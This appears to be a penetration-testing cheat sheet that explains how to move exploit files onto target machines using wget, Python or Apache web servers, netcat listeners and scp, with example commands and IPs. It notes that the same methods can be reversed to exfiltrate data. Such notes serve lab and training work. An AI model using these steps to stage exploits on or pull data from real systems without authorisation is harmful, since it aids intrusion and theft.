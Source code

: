 # Getting Files Onto Targets

Often you may want to put a file onto a target, this can be useful to move exploits onto the target amongst other things. Most of these techniques can be used in reverse to exfiltrate data as well

## Using wget

A common method uses wget to pull the files from a web server

    wget [URL] -O [Save Location]

### Params

    [URL]: The URL of the file to download, could also be an IP address
    [Save Location]: Where to save the file, if only a directory is provided, the filename is taken from the url

### Examples

    wget http://192.164.56.101/file.txt -O /tmp

    wget http://target-domain.com/123.c -O /tmp/exploit.c

### Servers Expose Files 

When you want to expose a file from your machine to wget you may want to enable a HTTP server on your machine to expose the files

#### Apache Server

Kali comes with an apache2 server pre-installed, it can be activated using the following command

    apache2ctl start

then files within `/var/www/html` can be accessed on port `80` of your IP address

#### Python HTTP Server

Python can also provide a http server

    python -m SimpleHTTPServer [Port]

This will expose the directory the command is run within and any sub directories as a web server

##### Params

    [Port]: The port to expose the server on

##### Examples 

    python -m SimpleHTTPServer 8080

    python -m SimpleHTTPServer 1234

## Using Netcat

An alternative option is to use netcat to transfer the file as raw data 

### Reverse Connection

This uses a similar principle to a reverse shell, firstly you run open a listener on your machine, feeding in the file you wish to transfer, then on the target you connect back to the listener, sending the output to a file

#### Setting The Listener

    nc -nvlp [Port] < [File]

##### Params

    [Port]: The port to listen for a connection on 
    [File]: The file to send to the target

##### Examples 

    nc -nvlp 4444 < exploit.c

#### Triggering The Transfer

    nc [IP] [Port] > [File]

##### Params

    [IP]: The IP address which has a listener set
    [Port]: The port the listener is looking at
    [File]: The file to save

##### Examples

    nc 192.168.56.101 4444 > boost.c

## Using SCP

If you have ssh credentials for the target, and an open ssh port you can use scp to transfer files

### Using Username:Password Combo

When using this command you will prompted for the accounts password 

    scp -P [Port] [File] [Username]@[IP]:[Save Location]

#### Params

    [Port] (Optional): Part of the -P option, specifying the ssh port, can be left out if on default port
    [File]: The file to transfer to the target
    [Username]: The ssh username to login with
    [IP]: The IP address of the target
    [Save Location]: Where to save the file, if only a directory is provided then it uses the name from your local machine

#### Examples 

    scp -P 8888 exploit.c max@192.168.56.102:/tmp

    scp exploit.c max@192.168.56.102:/tmp/outfile.c

### Using SSH Key

    scp -P [Port] -i [Key] [File] [Username]@[IP]:[Save Location]

#### Params

    [Port] (Optional): Part of the -P option, specifying the ssh port, can be left out if on default port
    [Key]: File containing SSH key used to authenticate as user
    [File]: The file to transfer to the target
    [Username]: The ssh username to login with
    [IP]: The IP address of the target
    [Save Location]: Where to save the file, if only a directory is provided then it uses the name from your local machine

#### Examples 

    scp -P 8888 -i ./key.txt exploit.c max@192.168.56.102:/tmp

    scp exploit.c -i ./key.txt max@192.168.56.102:/tmp/outfile.c

